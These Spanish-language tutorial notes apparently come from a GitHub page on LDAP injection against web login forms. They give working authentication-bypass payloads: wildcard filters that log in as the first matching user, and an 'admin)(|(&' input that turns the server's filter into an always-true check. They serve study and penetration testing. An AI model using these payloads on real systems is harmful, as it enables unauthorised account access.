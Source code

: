 ### Ejemplo de query de autenticación web


    (&(uid=admin)(userPassword=minga))

### Wildcard Injection

Siendo que ldap usa el * como wildcard podemos utilizar este caracter en uno o ambos campos del login. (como siempre, de funcionar, nos validará como el primer user en la lista de users)

Tambien podemos utilizar el wildcard si tenemos un substring del nombre de un user:

Imaginemos que tenemos una empresa cuyos usuarios inicien con MSF y un número, al utilizar el wildcard al final de este,la app validará con el primer user que tenga esta nomenclatura.

    (&(uid=MSF*)(userPassword=*))

### Universal true

Podemos inyectar un caso de universal true inyectando un or junto a un true(para esta búsqueda sí requerimos el nombre de un user válido) y agregamos un cierre de paréntesis al final de la contraseña:

    admin)(|(&

La query(del lado del server) quedaría:

    (&(uid=admin)(|(&)(userPassword=abc)))


